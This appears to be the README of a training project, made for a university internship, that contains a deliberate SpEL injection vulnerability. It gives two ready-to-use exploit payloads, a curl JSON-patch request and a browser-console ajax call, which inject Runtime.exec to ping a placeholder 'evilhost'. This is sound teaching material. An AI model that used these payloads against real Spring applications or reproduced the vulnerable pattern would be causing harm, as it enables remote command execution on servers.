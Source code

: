 # SpELinj
Exemple for SpEL injection

Made for internship at St. Petersburg ETU LETI.

This project contains a SpEL injection vulnerability.

To exploit this vulnerability, you need to send a request to the server like:
>curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(java.lang.Runtime).getRuntime().exec(\"ping evilhost\").x", "value" : >"pwned" }]' "http://localhost/cars/1/"

or execute the following code in the browser console on the "Добавить объявление" page:
>$.ajax({            url: 'cars/1/',<br/>
>                    type: 'PATCH',<br/>
>                    data: JSON.stringify([{ "op" : "replace", "path" : "T(java.lang.Runtime).getRuntime().exec(\"ping evilhost\").x", "value" : "pwned" }]),<br/>
>                    contentType: 'application/json-patch+json; charset=utf-8',<br/>
>                    dataType: 'json-patch+json',<br/>
>                    async: false });<br/>
